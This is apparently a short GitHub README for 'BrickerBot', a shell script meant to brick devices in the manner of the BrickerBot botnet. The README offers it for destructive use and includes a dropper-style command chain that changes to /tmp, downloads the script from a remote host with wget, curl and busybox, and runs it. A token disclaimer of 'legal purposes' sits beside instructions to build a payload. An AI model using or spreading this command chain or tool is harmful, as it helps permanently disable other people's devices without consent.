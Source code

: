 # BrickerBot
a sh script compiled for brick the devices.<br>
this script is used for brick devices (die of the devices).<br>
this script is only for legal purposes.<br>
the file have already permissions.<br>
for bricking devices like the BrickerBot botnet make a payload with this script.<br><br>
</p>example: cd /tmp; wget ip/brickerbot; curl ip/brickerbot; /bin/busybox wget ip/brickerbot; ./brickerbot<br></p><br>
@lulzawks on twitter | @facundodev on telegram | xkcd drunk#8774 on discord.
